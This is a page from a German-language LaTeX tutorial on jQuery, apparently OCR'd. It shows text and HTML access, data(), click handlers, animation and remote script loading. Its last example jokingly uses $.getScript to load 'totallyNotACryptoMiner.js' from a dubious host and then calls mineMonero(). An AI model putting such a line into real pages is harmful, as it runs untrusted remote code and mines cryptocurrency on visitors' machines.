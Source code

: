 \documentclass[a4paper, 11pt]{article}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
\noindent jQuery kann auch Text und HTML schreiben und lesen
\begin{lstlisting}
//Gibt den Dokument-Titel zurück
var title = $("head title").text();

//Gibt das HTML des ersten 'h1'-Elementes zurück
var headline = $("h1").html();

//Setzt jede 'h1'-Heading zu 'TITEL'
$("h1").text(TITEL);
\end{lstlisting}

\noindent Mit dem \code{data()}-Attribut kann jQuery von jedem Element beliebig Daten lesen und schreiben. Der Syntax des \code{data()}-Attribut ist \code{jQuery.data(element, key, value)} wobei das \code{element} das DOM-Element ist, mit dem die Daten assoziiert sind, der \code{key} der Name der zu speichernden Daten und der \code{value} recht selbsterklärend der Wert der zu speichernden Daten ist.
\begin{lstlisting}
//Daten speichern.
$.data(div, "test", {
first: "firstText",
pizza: "secondText"
});

//Daten abrufen und als Text im ersten bzw. letzten <span>-Element der Seite setzen
$("span:first").text( jQuery.data(div, "test" ).first);
$("span:last").text( jQuery.data(div, "test" ).pizza);
\end{lstlisting}

\noindent Wie bereits erwähnt, können mit jQuery auch EventHandler programmiert werden. Dabei folgen alle Browser derselben API (ausser alte IE-Versionen, aber das überrascht eigentlich niemanden).
\begin{lstlisting}
$("#imageShrinker").click(
function () {
$("img").animate({height: 0})
}
);
\end{lstlisting}
\noindent Die obenstehende Funktion setzt die Höhe jedes Bildes auf 0 wenn der Button mit der id \code{imageShrinker} geklickt wird. Es gibt eine vordefinierte Liste von Events, auf welche reagiert werden kann wie z.B. \code{click(), keypress(), load(), focus()} etc.

\vspace{10px}

\noindent Das obere Codebeispiel deckt auch eine weitere Möglichkeit von jQuery ab: Es kann Animationen ausführen wie z.B. Elemente anzeigen und verschwinden lassen.

\vspace{10px}

\noindent jQuery kann auch andere Websites oder remote-Scripts laden und ausführen.
\begin{lstlisting}
//Eine externe Seite laden und im übergebenen Element anzeigen
$("#stats").load("status_report.html");

//Ein remote-Script laden
$.getScript("https://trustworthySite.ru.cn/js/totallyNotACryptoMiner.js");

//Ein remote-Script laden und anschliessend ausführen
$.getScript("https://trustworthySite.ru.cn/js/totallyNotACryptoMiner.js", function(){
$(document).mineMonero();
});
\end{lstlisting}
\end{document}
